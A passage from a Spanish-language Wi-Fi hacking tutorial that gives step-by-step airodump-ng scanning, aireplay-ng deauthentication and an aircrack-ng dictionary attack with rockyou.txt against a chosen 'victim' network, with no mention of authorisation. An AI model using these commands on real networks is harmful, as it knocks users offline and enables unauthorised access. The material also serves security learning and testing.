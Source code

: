 Vamos a empezar escaneando la red haciendo uso de “airodump-ng” con la siguiente sintaxis:

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ airodump-ng <InterfazDeRed+mon> #Ex: airodump-ng wlan0mon
```

<p align="center">
<img src="https://miro.medium.com/max/875/1*ohG_P5Jnd1rQTdGeTyWQXw.png">
</p>

Una vez ya tengáis bastantes redes a vuestra disposición una gran variedad de redes escaneadas, ejecutáis este comando a la red a atacar:

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ airodump-ng -c <canal> --bssid <BSSID> -w psk <ESSID> #Ex: airodump-ng -c --bssid 90:CD:B6:83:43:B2 -w psk Oppo
``` 
  
Ahora necesitamos hacer la “deauthentication”, para ello vamos a hacer uso de la herramienta “aireplay-ng” esta herramienta nos va a permitir enviar paquetes a un cliente en especifico, o a toda la red si así lo preferimos para hacer la captura del apretón de manos, su sintaxis es la siguiente:

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ aireplay-ng <0-”PaquetesAenviar”> -a <BSSID> -c <BSSIDClienteEspecifico> <InterfazDeRed> #aireplay-ng 0-10 -a 90:CD:B6:83:43:B2 -c 43:53:D4:34:D5:54 wlan0mon
```

**Nota:** *Puede no ser cuestión de tiempo la captura del “handshake”
  
Ahora si vamos a utilizar “Aircrack-ng”, la navaja suiza del hacking de Redes WI-FI, para esta ocasión vamos a utilizar un diccionario muy conocido llamado rockyou.txt, este diccionario contiene contraseñas de base de datos de todo tipo, por lo que lo hace una muy buena opción para los ataques.

Con el siguiente comando empezaríamos el ataque:

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <BSSID> psk*.cap
``` 

**Nota:** *Este método no es tan efectivo como el primero, ya que este hace uso de un diccionario. Si la contraseña es robusta es posible que no se llegue a crackear, en cambio el otro da igual la complejidad que tenga la contraseña, es más por el sentido común de la víctima.
